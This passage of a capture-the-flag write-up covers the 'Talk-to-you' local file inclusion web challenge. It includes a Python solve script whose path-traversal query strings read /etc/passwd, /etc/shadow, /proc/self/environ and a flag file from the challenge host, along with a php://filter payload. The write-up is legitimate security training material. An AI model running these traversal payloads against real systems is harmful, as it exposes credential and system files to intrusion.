 flag: **TBTL{th15_1S_n0t_53CUR3_5T0r4G3}**

# web/Talk-to-you
`#lfi`

LFI challenge that has a `test.php` rabbit hole 
![Alt text](images/image-2.png)

Standard files can be found and if we just look around we can find the flag stored in `database.sqlite`.

solve script
```python
import requests 

url = "https://tbtl-talk-to-you.chals.io/"
query="?page=/../ctf/index.php"
query="?page=/../../../../../../../../../../proc/self/environ"
query="?page=/../../../../../../../../../../etc/passwd"
query="?page=/../../../../../../../../../../etc/shadow"
query="?page=/../../../../../../../../../../flag.txt"
query="?page=database.sqlite"
# query="?page=php://filter/convert.base64-encode/resource=/etc/test.php"

r = requests.get(url+query)
# r = requests.get(test)

print(r.headers)
print(r.text)
```
